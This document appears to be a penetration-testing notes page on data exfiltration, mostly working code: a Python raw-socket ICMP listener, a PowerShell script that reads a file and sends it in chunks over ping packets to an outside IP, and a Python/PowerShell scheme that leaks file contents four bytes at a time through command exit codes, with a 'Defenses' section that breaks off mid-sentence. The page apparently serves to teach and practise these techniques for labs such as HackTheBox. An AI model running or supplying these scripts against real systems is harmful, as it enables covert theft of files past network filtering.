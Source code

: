 # Data Exfiltration

## ICMP

When talking about data exfiltration, ICMP might be the most classic as it is traditionally not filtered to allow 

### Extracting a File

By sending ping packets from our server, with the start marked by `^BOF` and the end marked by `EOF` , we can set up an icmplistener as below which decodes the data packets and then writes them to our file. This isn't as universal as metasploit's listener, but it servers as a quick and dirty poc if all you're looking to extract is a single file.

```python
import socket

def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

A good option for recent Windows based systems is a modified [Powershell-ICMP-Sender](https://github.com/api0cradle/Powershell-ICMP).

```bash
    $IPAddress = "192.168.0.5"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true
    #$PingOptions.Ttl = 10

    # Must be divided into 1472 chunks
    [int]$bufSize = 1472
    $inFile = "C:\Users\bob\Desktop\backfile"


    $stream = [System.IO.File]::OpenRead($inFile)
    $chunkNum = 0
    $TotalChunks = [math]::floor($stream.Length / 1472)
    $barr = New-Object byte[] $bufSize

    # Start of Transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^BOFbackfile")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null


    while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
        $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
        $ICMPClient.PingCompleted

        #Missing check if transfer is okay, added sleep.
        sleep 2
        #$ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
        Write-Output "Done with $chunkNum out of $TotalChunks"
        $chunkNum += 1
    }

    # End the transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^EOF")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
    Write-Output "File Transfered"
```

This same technique is often used to construct a shell over the ICMP protocol.

### Defenses

A simple solution many may suggest is to simply block

## Error Codes

We can exfiltrate arbitrary data via literally nothing but error-codes. Here I'll walk through the stages to set up and test this for exfiltrating some file.

An error code can have a maximum length of 32 bits, or 4 bytes. We can therefore encode 4 arbitrary bytes within the return of a windows command.

We have data stored within`$env:temp/merror.txt` and the only parameter we need to know is it's length. We can run an arbitrary command, store it's output in the file and find out its length by running the following:

```text
$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
```

We now have to generate our commands to split up the file and return the data. The following script will return an iterator that will yield commands to run on the remote machine, which will return error codes.

```python
def error_exfil(output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd
```

Decoding them on the other end is as simple as:

```python
def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')
```

An example of this technique was described in [HackTheBox - Minion Error Code Exfiltration](https://reboare.github.io/hackthebox/minion.html).

